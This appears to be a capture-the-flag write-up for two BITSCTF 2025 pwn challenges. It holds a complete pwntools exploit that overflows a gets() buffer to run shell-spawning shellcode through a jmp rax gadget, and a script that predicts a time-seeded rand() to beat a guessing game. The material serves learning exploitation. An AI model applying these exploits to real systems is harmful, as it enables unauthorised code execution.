



import PostFileDownload from "../../../components/PostFileDownload.astro";

## BabyPWN

> I hope you are having a nice day.

<PostFileDownload name="2025-bitsctf-babypwn.zip" />

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x400000)
Stack:      Executable
RWX:        Has RWX segments
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

An extremely short buffer overflow challenge, with an executable stack! Meaning I can use shellcode and the question was just HOW?

```c
void vuln(void)

{
  undefined local_78 [112];

  FUN_00401040(local_78);
  return;
}
```

This was the entire program being decompiled using Ghidra. An array of 112 size and a gets function call. Just those two things. Now something new I just learned is that the way gets works is that:

- it accepts input into the buffer
- it returns the pointer to the buffer
- saves the buffer in RAX

Coincidentally, there was a ROP gadget that does exactly jmp rax :

```
0x00000000004010a5 : je 0x4010b0 ; mov edi, 0x404030 ; jmp rax
0x00000000004010e7 : je 0x4010f0 ; mov edi, 0x404030 ; jmp rax
0x00000000004010ac : jmp rax
0x00000000004010a7 : mov edi, 0x404030 ; jmp rax
0x00000000004010a6 : or dword ptr [rdi + 0x404030], edi ; jmp rax
0x00000000004010a3 : test eax, eax ; je 0x4010b0 ; mov edi, 0x404030 ; jmp rax
0x00000000004010e5 : test eax, eax ; je 0x4010f0 ; mov edi, 0x404030 ; jmp rax
```

Using a shellcode stored in the beginning of the buffer, and a gadget pointing there. I built a ROP chain using pwntools:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'main')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or 'chals.bitskrieg.in'
port = int(args.PORT or 6001)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
b *vuln+29
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()

OFFSET = 120
JMP_RAX = 0x00000000004010ac

payload = flat(
    asm(shellcraft.sh()),
    cyclic(OFFSET - len(asm(shellcraft.sh())), n=8),
    JMP_RAX
)

io.sendline(payload)

io.interactive()
```



## Biscuits

> Momma, can I have cookie..?
>
> No....
>
> **Author: d4y0n3**

<PostFileDownload name="2025-bitsctf-biscuits.zip" />

```
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

A simple challenge where you have to predict the RNG picking an extremely large array of Cookie names, I got a local solve but the remote has disgustingly bad latency that it never got the correct RNG predict.

```c
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);
  puts("Give me the cookie I want a 100 times in a row and I\'ll gi ve you the flag!");
  fflush(stdout);
  for (local_f8 = 0; local_f8 < 100; local_f8 = local_f8 + 1) {
    iVar1 = rand();
    strcpy(local_78,*(char **)(cookies + (long)(iVar1 % 100) * 8) );
    printf("Guess the cookie: ");
    fflush(stdout);
    fgets(local_e8,100,stdin);
    sVar3 = strcspn(local_e8,"\n");
    local_e8[sVar3] = '\0';
    iVar1 = strcmp(local_e8,local_78);
    if (iVar1 != 0) {
      printf("Wrong. The cookie I wanted was: %s\n",local_78);
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    printf("Correct! The cookie was: %s\n",local_78);
    fflush(stdout);
  }
```

Decompiled using Ghidra, this program wants the user to predict the correct cookie name 100 times in a row to get the flag. First step is to find a list of cookie names using Ghidra, which I did by looking at the cookie array pointer and copied everything to ChatGPT to translate it to a Python array:



Here is the RNG prediction and cookie input loop script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *
from time import time
from ctypes import CDLL

exe = context.binary = ELF(args.EXE or 'main')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or 'chals.bitskrieg.in'
port = int(args.PORT or 6000)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()
log.info(io.recvline())
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
libc.srand(libc.time(0))

cookies = [
    "Chocolate Chip", "Sugar Cookie", "Oatmeal Raisin", "Peanut Butter", "Snickerdoodle", "Shortbread", "Gingerbread",
    "Macaron", "Macaroon", "Biscotti", "Butter Cookie", "White Chocolate Macadamia Nut", "Double Chocolate Chip",
    "M&M Cookie", "Lemon Drop Cookie", "Coconut Cookie", "Almond Cookie", "Thumbprint Cookie", "Fortune Cookie",
    "Black and White Cookie", "Molasses Cookie", "Pumpkin Cookie", "Maple Cookie", "Espresso Cookie", "Red Velvet Cookie",
    "Funfetti Cookie", "S'mores Cookie", "Rocky Road Cookie", "Caramel Apple Cookie", "Banana Bread Cookie",
    "Zucchini Cookie", "Matcha Green Tea Cookie", "Chai Spice Cookie", "Lavender Shortbread", "Earl Grey Tea Cookie",
    "Pistachio Cookie", "Hazelnut Cookie", "Pecan Sandies", "Linzer Cookie", "Spritz Cookie", "Russian Tea Cake",
    "Anzac Biscuit", "Florentine Cookie", "Stroopwafel", "Alfajores", "Polvorón", "Springerle", "Pfeffernüsse",
    "Speculoos", "Kolaczki", "Rugelach", "Hamantaschen", "Mandelbrot", "Koulourakia", "Melomakarona", "Kourabiedes",
    "Pizzelle", "Amaretti", "Cantucci", "Savoiardi (Ladyfingers)", "Madeleine", "Palmier", "Tuile", "Langue de Chat",
    "Viennese Whirls", "Empire Biscuit", "Jammie Dodger", "Digestive Biscuit", "Hobnob", "Garibaldi Biscuit",
    "Bourbon Biscuit", "Custard Cream", "Ginger Nut", "Nice Biscuit", "Shortcake", "Jam Thumbprint", "Coconut Macaroon",
    "Chocolate Crinkle", "Pepparkakor", "Sandbakelse", "Krumkake", "Rosette Cookie", "Pinwheel Cookie",
    "Checkerboard Cookie", "Rainbow Cookie", "Mexican Wedding Cookie", "Snowball Cookie", "Cranberry Orange Cookie",
    "Pumpkin Spice Cookie", "Cinnamon Roll Cookie", "Chocolate Hazelnut Cookie", "Salted Caramel Cookie",
    "Toffee Crunch Cookie", "Brownie Cookie", "Cheesecake Cookie", "Key Lime Cookie", "Blueberry Lemon Cookie",
    "Raspberry Almond Cookie", "Strawberry Shortcake Cookie", "Neapolitan Cookie"
]

for i in range(100):
    rng = libc.rand() % 100
    cookie = cookies[int(rng)]
    io.sendlineafter("cookie: ", bytes(cookie, 'utf-8'))
    log.info(f"Sent cookie: {cookie}")
    log.info(io.recvline())

io.interactive()
```


